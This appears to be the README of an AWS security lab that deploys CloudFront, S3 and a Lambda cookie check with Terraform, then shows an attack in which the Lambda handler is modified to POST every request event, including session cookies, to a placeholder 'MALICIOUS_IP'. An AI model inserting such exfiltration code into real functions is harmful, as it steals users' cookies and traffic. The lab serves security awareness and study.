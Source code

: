 # CloudFront - Data Exfiltration via Lambda Function Modification

## Overview

This setup deploys an AWS CloudFront distribution backed by an S3 bucket. The bucket contains two files: `index.html` and `login.html`. The `login.html` simulates a login page by setting a random cookie named `session-id` for the user. Additionally, a Lambda function checks for the presence of this cookie and redirects users to the login.html if it's missing.

## Prerequisites

- AWS CLI configured with necessary permissions.
- Terraform installed.

## Deploying the Infrastructure

1. **Initialize Terraform**:
    ```bash
    terraform init
    ```

2. **Review Changes**:
    ```bash
    terraform plan
    ```

3. **Deploy Resources**:
    ```bash
    terraform apply
    ```

4. **Update the Lambda Function**:
    - After the initial `terraform apply`, you will receive an output containing the domain URL for the CloudFront distribution.
    - Open the Lambda function code and replace the `CHANGEME` placeholder with the received domain.
    - Save the changes.

5. **Reapply Terraform Changes**:
    ```bash
    terraform apply
    ```

6. **Access CloudFront**: After the second apply, accessing the CloudFront URL will lead you to `index.html`, the lambda will redirect you to `login.html`. The latter sets a random "cookie" to simulate a login page.

## Attacking the Infrastructure

The goal of this exercise is to demonstrate how attackers might harm an AWS infrastructure as detailed in the article:

1. **Modify the Lambda Function**:
    - Import the required modules: `http.client` and `json`.
    - Add the following lines to the handler:
        ```python
        conn = http.client.HTTPConnection("MALICIOUS_IP", 80)
        conn.request("POST", "/", json.dumps(event).encode('utf-8'))
        ```
    - Ensure you replace `MALICIOUS_IP` in the script with the IP of your server where you want to capture cookies.
    - Save the changes.

2. **Update the Lambda Function**:
    - Publish a new version of the modified Lambda function.
    - Update the CloudFront distribution to use this new version of the Lambda function.

From this point on, all user requests routed through CloudFront will also be sent to the specified `MALICIOUS_IP`.

## Cleanup

To avoid incurring additional charges, ensure you destroy the Terraform-managed resources once done:

```bash
terraform destroy
```

⚠️ **Warning** ⚠️

> The content and techniques described here are meant for educational and awareness purposes only. Always be cautious when testing and use only in safe, controlled environments. Unauthorized use or misuse can lead to legal consequences and potential harm.